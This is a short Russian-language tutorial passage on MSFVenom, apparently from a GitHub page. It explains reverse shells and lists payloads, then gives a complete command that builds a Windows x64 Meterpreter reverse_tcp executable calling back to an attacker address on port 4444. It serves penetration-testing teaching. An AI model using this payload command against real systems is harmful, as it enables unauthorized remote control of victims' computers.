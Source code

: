 #### Что такое MSFVenom
MSFVenom — бесплатный инструмент для создания полезной нагрузки (вредоносного файла). Это, так сказать, двоюродный брат Metasploit. С его помощью вы можете создавать различные полезные нагрузки, шелл-код и обратный шелл.
* msfvenom -h => отобразить справку
#### Как использовать MSFVenom:
Reverse TCP (обратное подключение, обратный шелл, пейлоад), — схема взаимодействия с целевым компьютером. Говоря простым языком. Мы создаем вредоносный файл (полезную нагрузку), после запуска которого целевой компьютер будет пытаться подключиться к нашему компьютеру. Это называется «бэкконнект» или в нашем случае обратный шелл, потому что «бэкконнект» — это понятие растяжимое.
Чтобы узнать, какие полезные нагрузки доступны введите команду:
* msfvenom -l payloads
#### Следующая команда создаст вредоносный исполняемый файл (обратный шелл), после запуска которого откроется сеанс Meterpreter.
* LHOST — IP-адрес вашего компьютера (атакующего).
* LPORT — порт вашего компьютера, который назначен серверу или программе.
* P — сокращение от «payload», полезная нагрузка для выбранной платформы.
* F — параметр, который задает тип файла, например, exe для Windows.
* msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.13 LPORT=4444 -f exe -a x64 -o /home/infosecaddicts/infoecaddicts.exe

